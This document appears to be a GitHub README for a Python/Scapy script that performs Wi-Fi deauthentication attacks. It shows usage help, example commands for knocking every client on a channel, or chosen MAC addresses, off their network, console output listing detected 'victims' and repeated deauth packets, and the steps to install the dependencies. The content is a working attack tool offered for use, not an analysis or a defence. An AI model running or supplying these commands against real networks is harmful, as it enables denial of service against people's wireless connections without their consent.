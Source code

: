 # WiFi-Deauth
Wi-Fi Deauthentication Attack using [Scapy](https://scapy.net/)

## Usage
Script parameters

```
thanos@briki:~/$ ./deauth.py -h
Usage: sudo ./deauth.py [ARGUMENTS]...

Optional arguments.
  -v                         Run in verbose mode.
  -h, --help                 Prints this message.
  -c, --channel              Channel to monitor.
  -a, --attack               Victim's MAC address.

Example usage
  Monitor channel 8 for victims:
    sudo ./deauth.py -c 8
  Attack all clients on channel 8:
    sudo ./deauth.py -c 8 -a *
  Attack clients by MAC on channel 8:
    sudo ./deauth.py -c 8 -a AA:11:22:33:44:55 -a BB:11:22:33:44:55

By GramThanos
```

Monitor mode on channel 8

```
thanos@briki:~/$ sudo ./deauth.py -c 8
[ATK][INFO] Loading vendor list from cache
[ATK][INFO] Vendor list successfully loaded: 27663 entries
[ATK][INFO] Interface "wlp3s0" selected
[ATK][INFO] Channel was set to 8
[ATK][INFO] Detected AP     : "Thanos" - YY:YY:YY:YY:YY:YY [TP-LINK TECHNOLOGIES CO.,LTD.]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Raspberry Pi Foundation]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Raspberry Pi Foundation]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Apple, Inc.]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
^C
```

Attack victim device with MAC address "XX:XX:XX:XX:XX:XX" on channel 8

```
thanos@briki:~/$ sudo ./deauth.py -c 8 -a XX:XX:XX:XX:XX:XX
[ATK][INFO] Loading vendor list from cache
[ATK][INFO] Vendor list successfully loaded: 27663 entries
[ATK][INFO] Interface "wlp3s0" selected
[ATK][INFO] Channel was set to 8
[ATK][INFO] Detected AP : "Thanos" - YY:YY:YY:YY:YY:YY [TP-LINK TECHNOLOGIES CO.,LTD.]
[ATK][INFO] Deauth      : [1] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [2] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [3] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [4] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [5] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [6] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [7] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [8] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
^C
```

## Install Dependancies
The script was created for python3.

You will need pip
```sh
sudo apt install python3-pip
```

Install [Scapy](https://scapy.net/)
```sh
sudo pip3 install scapy
```
Install [mac-vendor-lookup](https://pypi.org/project/mac-vendor-lookup/)
```sh
sudo pip3 install mac-vendor-lookup
```
